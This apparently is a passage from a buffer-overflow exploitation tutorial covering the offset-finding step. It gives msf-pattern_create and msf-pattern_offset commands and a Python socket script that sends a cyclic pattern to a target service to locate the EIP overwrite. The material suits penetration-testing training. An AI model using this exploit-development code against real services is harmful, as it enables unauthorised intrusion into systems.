## getoffset.py

Once the application is fuzzed at X, lets say 2700, bytes, create a unique string of X+200 (or 300) bytes, let’s say 3000 bytes, using `msf-pattern_create` like below:

`msf-pattern_create -l 3000`

Assign this unique string to the payload variable

```
import socket
import sys
from time import sleep

pattern = '<enter pattern here>'

# buffer = 'A' * 600
buffer = pattern

try:
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(2)
  s.connect(('172.16.3.40',9999))
  s.recv(1024)

  print '[*] Sending buffer...'
  s.send(buffer + '\r\n')
  s.close()

except:
  print '[!] Could not connect to target, exiting.'
  sys.exit()

```

* * *
Make a note of the address that the EIP was overwriten with, use `msf-pattern_offset` to find the offset, like below:

`msf-pattern_offset -l 3000 -q <enter EIP address>`

This will provide you with the offset at which the EIP will be written at. If the offset is 2606, then that means from byte 2607 to byte 2610 will determine the EIP address, and the rest will go into ESP.



